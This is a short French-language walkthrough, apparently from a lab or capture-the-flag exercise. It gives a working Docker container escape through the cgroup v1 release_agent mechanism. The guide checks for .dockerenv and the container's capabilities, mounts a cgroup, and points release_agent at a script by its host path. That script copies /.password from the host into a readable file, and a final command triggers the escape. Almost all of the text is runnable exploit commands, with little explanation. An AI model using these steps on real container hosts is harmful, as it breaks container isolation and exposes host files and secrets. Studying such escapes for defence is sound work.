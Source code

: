 ## Vérification de l'environnement Docker

Pour vérifier si vous êtes dans un conteneur Docker, procédez comme suit :

1. **Lister le contenu de la racine `/` :**

   ```bash
   ls -a /
   ```

   **Résultat attendu :**
   ```bash
   .     bin   dev  home  lib32  libx32  mnt  proc  run   srv  tmp  var
   ..  .dockerenv  boot  etc  lib   lib64  media   opt  root  sbin  sys  usr
   ```
   La présence du fichier `.dockerenv` indique que vous êtes dans un conteneur Docker.

2. **Afficher les capacités du conteneur :**

   ```bash
   capsh --print
   ```

   **Résultat attendu :**
   ```bash
   cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
   ```

## Préparer l'Environnement

1. **Créer le répertoire pour le cgroup et monter le système de fichiers :**

   ```bash
   mkdir /tmp/cgrp
   mount -t cgroup -o rdma cgroup /tmp/cgrp
   mkdir /tmp/cgrp/x
   ```

2. **Configurer le cgroup enfant :**

   ```bash
   echo 1 > /tmp/cgrp/x/notify_on_release
   ```

3. **Configurer le Release Agent :**

   ```bash
   host_path=$(sed -n 's/.*perdir=\([^,]*\).*/\1/p' /etc/mtab)
   echo "$host_path/cmd" > /tmp/cgrp/release_agent
   ```

4. **Créer et configurer le script `/cmd` :**

   ```bash
   echo '#!/bin/sh' > /cmd
   echo "cat /.password > $host_path/output" >> /cmd
   chmod a+x /cmd
   ```

## Déclencher l'attaque

Pour déclencher l'attaque et exécuter le script :

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
